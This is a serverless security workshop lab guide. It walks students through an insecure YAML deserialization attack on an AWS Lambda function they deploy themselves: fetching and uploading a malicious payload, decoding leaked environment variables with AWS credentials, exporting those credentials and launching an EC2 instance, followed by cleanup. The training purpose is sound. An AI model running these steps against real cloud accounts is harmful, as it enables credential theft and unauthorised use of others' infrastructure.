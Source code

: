 # Insecure Deserialization

In this example, we'll leverage an Insecure Deserialization Attack to compromise and perform lateral movement against the AWS Account

* In your image, navigate over to `/root/labs/Serverless-Workshop/Insecure-Deserialization`
* Wait for instructor to explain the contents of the lab
* Let's look at the contents of the `serverless.yml` [here](https://github.com/we45/Serverless-Workshop/blob/master/DynamoDB-Injection/serverless.yml)
* Deploy the function with the command `sls deploy`
* Wait for the function to deploy completely
* Once the function is deployed, you should see a URL ending with `yaml-upload`
* Let's first upload a yaml file to see what it does

```bash
http POST https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/yaml-upload file=@serverless.yml
```

Now let's run a malicious yaml to see if our attack works

```bash
wget https://raw.githubusercontent.com/we45/container_training/master/Kubernetes/K8s-Cluster-Attack/payloads/test_payment.yml
```

* Examine this file and see what's different about it

Now let's upload the YAML file and see if our payload executes

```bash
http POST https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/yaml-upload file=@test_payment.yml
```

You should see a response like this
```json

{
    "content": {
        "amount": 112,
        "card": 5111111111111111,
        "merchant": "Hello World Traders",
        "name": "PayTM Bill payment 5",
        "reason": "UEFUSD0vdmFyL2xhbmcvYmluO <Truncated base64 value>"
    }
}

```
Copy the Base64 encoded value for the  `reason` key and run: 

```bash
echo "<copied value>" | base64 -d
```

you should see a bunch of environment variables being displayed on screen

```bash
ATH=/var/lang/bin:/usr/local/bin:/usr/bin/:/bin:/opt/bin
LD_LIBRARY_PATH=/var/lang/lib:/lib64:/usr/lib64:/var/runtime:/var/runtime/lib:/var/task:/var/task/lib:/opt/lib
LANG=en_US.UTF-8
TZ=:UTC
LAMBDA_TASK_ROOT=/var/task
LAMBDA_RUNTIME_DIR=/var/runtime
AWS_REGION=us-west-2
AWS_DEFAULT_REGION=us-west-2
AWS_LAMBDA_LOG_GROUP_NAME=/aws/lambda/we45-sls-workshop-deserial-dev-deserial
AWS_LAMBDA_LOG_STREAM_NAME=2019/07/25/[$LATEST]d10c0fbe300f43f5b5f4827099e506c2
AWS_LAMBDA_FUNCTION_NAME=we45-sls-workshop-deserial-dev-deserial
AWS_LAMBDA_FUNCTION_MEMORY_SIZE=2048
AWS_LAMBDA_FUNCTION_VERSION=$LATEST
_AWS_XRAY_DAEMON_ADDRESS=169.254.79.2
_AWS_XRAY_DAEMON_PORT=2000
AWS_XRAY_DAEMON_ADDRESS=169.254.79.2:2000
AWS_XRAY_CONTEXT_MISSING=LOG_ERROR
AWS_EXECUTION_ENV=AWS_Lambda_python3.7
_HANDLER=handler.main
AWS_ACCESS_KEY_ID=ASIAVGZHAADDDBBAYBAQ
AWS_SECRET_ACCESS_KEY=U1mcVyZoKnbhI+Pl+1113344222344lZRS
AWS_SESSION_TOKEN=SOMEBASE64Value
```

Now run 
`export AWS_ACCESS_KEY_ID=ASIAVGZHAADDDBBAYBAQ` by copying the Access Key ID
next: 
`export AWS_SECRET_ACCESS_KEY=U1mcVyZoKnbhI+Pl+1113344222344lZRS`
next: 
`export AWS_SESSION_TOKEN=SOMEBASE64Value`

you are now using the credential provided by these tokens for the Lambda service

if you run `aws dynamodb list-tables` you should get an error, as you are no longer using the admin profile anymore

### Let's complete the attack

Now we should be able to launch an EC2 instance with this command: 
```bash
aws ec2 run-instances --image-id ami-9abea4fb --count 1 --instance-type t2.micro
```

## Clean up - Very important!!!
### You don't want to leave your AWS Account with actively exploitable RCE flaw

```bash
unset AWS_ACCESS_KEY_ID
unset AWS_SECRET_ACCESS_KEY
unset AWS_SESSION_TOKEN
```

now run `sls remove` to remove the vulnerable function from your account

